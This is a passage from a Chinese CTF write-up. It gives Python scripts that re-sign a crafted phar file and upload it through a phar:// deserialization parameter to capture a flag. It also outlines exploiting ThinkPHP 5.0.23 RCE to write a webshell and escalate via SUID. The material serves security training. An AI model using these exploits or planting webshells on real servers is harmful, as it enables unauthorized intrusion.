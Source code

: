 ```python
from hashlib import sha256
with open("hacker1.phar",'rb') as f:
   text=f.read()
   main=text[:-40]        #正文部分(除去最后40字节)
   end=text[-8:]		  #最后八位也是不变的	
   new_sign=sha256(main).digest()
   new_phar=main+new_sign+end
   open("hacker1.phar",'wb').write(new_phar)     #将新生成的内容以二进制方式覆盖写入原来的phar文件
```

然后发现题目的文件上传不能用
 那么写脚本上传顺便url编码

```python
import urllib.parse
import os
import re
import requests

url='http://1c6e2942-f983-47cc-a6ef-9612e7519196.node4.buuoj.cn:81/'
pattern = r'flag\{.+?\}'
params={
    'pear':'hacker1.phar', 
    'apple':'phar://hacker1.phar'
}

with open('hacker1.phar','rb') as fi:
    f = fi.read()
    ff=urllib.parse.quote(f)
    fin=requests.post(url=url+"pairing.php",data=ff,params=params)
    matches = re.findall(pattern, fin.text)
    for match in matches:
        print(match)
```

得到flag
 ![在这里插入图片描述](assets/cf51ab31ab5d495c8c41530d627e0ffd.png)

### Final（ThinkPHP 5.0.23 RCE、SUID提权）

> 考点：ThinkPHP 5.0.23 RCE、SUID提权

打开题目，发现是ThinkPHP框架
 直接用工具找到payload
 ![在这里插入图片描述](../../CTF_%25E7%25AC%2594%25E8%25AE%25B0%25E8%25AE%25B0%25E5%25BE%2597%25E8%25BD%25AC%25E7%25A7%25BB/web/%25E9%25A2%2598%25E7%259B%25AEwp+%25E6%2598%25A5%25E7%25A7%258B%25E4%25BA%2591%25E5%25A2%2583%25E6%25B8%2597%25E9%2580%258Fwp/assets/7ea609752549498eaa3502a62463962a.png)试一试发现成功打开phpinfo
 ![在这里插入图片描述](../../CTF_%25E7%25AC%2594%25E8%25AE%25B0%25E8%25AE%25B0%25E5%25BE%2597%25E8%25BD%25AC%25E7%25A7%25BB/web/%25E9%25A2%2598%25E7%259B%25AEwp+%25E6%2598%25A5%25E7%25A7%258B%25E4%25BA%2591%25E5%25A2%2583%25E6%25B8%2597%25E9%2580%258Fwp/assets/e0120c6ab7e545d8917007cf6a52df7d.png)
 发现system被禁了，那么试试exec写入webshell
 写入到 /var/www/public
 ![在这里插入图片描述](assets/4427be4dcf7045b79a6d813a90bb99be.png)
